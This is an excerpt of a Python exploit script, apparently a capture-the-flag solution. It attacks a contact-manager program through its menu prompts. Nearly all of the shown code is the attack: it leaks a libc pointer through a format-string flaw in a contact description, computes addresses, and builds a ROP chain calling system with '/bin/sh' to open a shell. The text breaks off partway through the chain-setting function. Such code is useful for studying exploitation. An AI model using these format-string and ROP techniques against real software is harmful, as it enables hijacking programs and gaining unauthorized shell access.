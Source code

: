 ```python

  msg = h.recvuntil('Enter date (dd/mm/yyyy): ')
  print msg
  h.sendline(date)

  msg = h.recvuntil('Enter length of description: ')
  print msg
  h.sendline(desc_len)

  msg = h.recv(1024)
  print msg
  h.sendline(desc)

  msg = h.recvuntil('Enter choice: ')
  print msg

  # Display contacts
  h.sendline("3")
  msg = h.recvuntil('Enter choice: ')
  print msg

  # Extract leaked pointers
  libc_ptr = re.findall('.*Description:\s(.*?)\n.*', msg)[0]
  return (int(libc_ptr, 16) - 0xf9 - pointer_offset)

def set_ropchain(h, system_addr, binsh_addr): 
  name = "ropchain"
  date = "1337"
  desc_len = "8192"

  # Dummy return address for system
  dummy = 0x0BADC0DE

  # ROP chain: {system (4 bytes)}{dummy (4 bytes)}{"/bin/sh" (4 bytes)}
  ROP_chain = [system_addr,dummy,binsh_addr]
  # Include FMS leak to get address of ROP chain
  desc = "".join([pack('<I', x) for x in ROP_chain]) + "<%15$x>"

  # Create new contact
  h.sendline("1")
  msg = h.recvuntil('Enter name: ')
  print msg

  h.sendline(name)

  msg = h.recvuntil('Enter date: ')
  print msg
  h.sendline(date)

  msg = h.recvuntil('Enter length of description: ')
  print msg
  h.sendline(desc_len)

  msg = h.recv(1024)
  print msg
  h.sendline(desc)

  msg = h.recvuntil('Enter choice: ')
  print msg

  # Display contacts
  h.sendline("3")
  msg = h.recvuntil('Enter choice: ')
```